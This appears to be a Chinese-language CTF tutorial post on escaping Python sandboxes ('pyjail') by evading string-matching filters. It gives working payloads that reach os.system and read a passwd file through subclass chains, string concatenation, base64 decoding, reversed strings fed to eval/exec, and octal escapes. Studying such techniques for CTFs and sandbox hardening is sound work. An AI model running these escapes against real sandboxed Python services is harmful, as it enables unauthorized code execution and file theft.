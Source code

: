 ```yaml
---
title: pyjail bypass-02 绕过基于字符串匹配的过滤
date: 2023-05-30 10:23:57
categories:
- Python
tags:
- pyjail
toc: true
---
```


## 绕过基于字符串匹配的过滤

### 字符串变换

#### 字符串拼接
在我们的 payload 中，例如如下的 payload，`__builtins__` `file` 这些字符串如果被过滤了，就可以使用字符串变换的方式进行绕过。
```py
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('E:/passwd').read()

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__buil'+'tins__']['fi'+'le']('E:/passwd').read()
```
当然，如果过滤的是 `__class__` 或者 `__mro__` 这样的属性名，就无法采用变形来绕过了。

#### base64 变形
base64 也可以运用到其中
```py
>>> import base64
>>> base64.b64encode('__import__')
'X19pbXBvcnRfXw=='
>>> base64.b64encode('os')
'b3M='
>>> __builtins__.__dict__['X19pbXBvcnRfXw=='.decode('base64')]('b3M='.decode('base64')).system('calc')
0
```

#### 逆序
```py
>>> eval(')"imaohw"(metsys.)"so"(__tropmi__'[::-1])
kali
>>> exec(')"imaohw"(metsys.so ;so tropmi'[::-1])
kali
```
注意 exec 与 eval 在执行上有所差异。

#### 进制转换
八进制：
```py
exec("print('RCE'); __import__('os').system('ls')")
exec("\137\137\151\155\160\157\162\164\137\137\50\47\157\163\47\51\56\163\171\163\164\145\155\50\47\154\163\47\51")
```
